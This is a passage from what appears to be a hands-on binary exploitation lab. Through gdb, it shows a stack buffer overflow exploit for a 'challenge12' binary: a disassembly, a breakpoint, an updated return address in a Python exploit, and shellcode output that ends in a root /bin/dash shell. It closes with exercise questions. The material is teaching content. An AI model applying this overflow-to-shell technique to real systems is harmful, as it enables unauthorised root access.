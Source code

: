 ```sh
   0x00000000004007f8 <+36>:	mov    $0x0,%eax
   0x00000000004007fd <+41>:	callq  0x4005a0 <printf@plt>
   0x0000000000400802 <+46>:	mov    $0x0,%edi
   0x0000000000400807 <+51>:	callq  0x4005f0 <exit@plt>
   0x000000000040080c <+56>:	mov    -0x10(%rbp),%rax
   0x0000000000400810 <+60>:	add    $0x10,%rax
   0x0000000000400814 <+64>:	mov    (%rax),%rdx
   0x0000000000400817 <+67>:	mov    -0x10(%rbp),%rax
   0x000000000040081b <+71>:	add    $0x8,%rax
   0x000000000040081f <+75>:	mov    (%rax),%rax
   0x0000000000400822 <+78>:	mov    %rdx,%rsi
   0x0000000000400825 <+81>:	mov    %rax,%rdi
   0x0000000000400828 <+84>:	callq  0x40074f <handleData>
   0x000000000040082d <+89>:	mov    $0x0,%eax
   0x0000000000400832 <+94>:	leaveq
   0x0000000000400833 <+95>:	retq   
End of assembler dump.
(gdb) b *0x0000000000400828
Breakpoint 1 at 0x400828
(gdb) run `python ./challenge12-exploit-gdb.py` bbbb
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /root/challenges/challenge12/challenge12 `python ./challenge12-exploit-gdb.py` bbbb

Breakpoint 1, 0x0000000000400828 in main ()
(gdb) x/4x $rdi
0x7fffffffe752:	0x90909090	0x90909090	0x90909090	0x90909090
```

Update the exploit:
```sh
#ret_addr = struct.pack('<Q', 0x7fffffffe87b)
ret_addr = struct.pack('<Q', 0x7fffffffe752)
```

And try it again:
```sh
root@hlUbuntu64:~/challenges/challenge12# gdb -q challenge12
Reading symbols from challenge12...(no debugging symbols found)...done.
(gdb) run `python ./challenge12-exploit-gdb.py` bbbb
Starting program: /root/challenges/challenge12/challenge12 `python ./challenge12-exploit-gdb.py` bbbb
Hello cmd-�������������������������������������1�H�ѝ��Ќ��H��ST_�RWT^�;AAAAAAAAAAAAAAAAAAAAR����.
You are admin!
isAdmin: 0x41414141
process 364 is executing new program: /bin/dash
# id
uid=0(root) gid=0(root) groups=0(root)
```

We see that "/bin/dash" is being executed, and a shell prompt "#" is displayed. This means
that our exploit works!


## Questions

* Can you adjust the exploit so it works without GDB?
* Can you create an exploit which works in both, with and without GDB?
